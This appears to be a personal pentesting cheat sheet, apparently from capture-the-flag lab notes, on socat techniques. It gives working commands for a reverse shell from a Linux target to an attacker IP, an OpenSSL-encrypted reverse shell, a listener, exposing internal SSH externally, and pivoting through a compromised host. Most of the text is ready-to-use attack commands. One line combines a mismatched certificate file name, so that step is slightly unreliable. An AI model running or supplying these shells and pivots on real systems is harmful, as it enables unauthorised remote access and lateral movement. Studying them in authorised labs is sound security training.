 ##### Socat reverse shell (Linux target)
`socat TCP:10.8.1.167:5555 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`
-   **pty**, allocates a pseudoterminal on the target -- part of the stabilisation process
-   **stderr**, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)  
-   **sigint**, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
-   **setsid**, creates the process in a new session
-   **sane**, stabilises the terminal, attempting to "normalise" it.


##### Listen
`socat -dd TCP-L:5555 STDOUT`


##### Create encrypted reverse shell
```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 999 -out shell.crt  // Creating the key, creates "shell.crt, shell.key"
cat shell.key cert.crt > shell.pem```  // Combine keys
socat OPENSSL-CONNECT:10.8.16.7:4444 EXEC:"bash -li",pty,stderr,sigint,setsid,sane // Connect
socat -d -d OPENSSL-LISTEN:4444,cert=/home/edu/THM/EXPLOITS/shell.pem,verify=0// Listen
```

##### Open external port to access internal
```
./socat_linux tcp-listen:9001,reuseaddr,fork tcp:127.0.0.1:22      // Opens port 9001, connecting to the internal SSH protocol
```

##### Socat port forward:
```
socat TCP-L:8001 TCP-L:8000,fork,reuseaddr & // Set up listener on attacking machine, :8001 to :8000 and :8000 to :8001
socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork & // Set up relay on compromised host
```

Send data (nmap, hydra, etc) through `127.0.0.1:8000`
Don't forget to close Socat after use


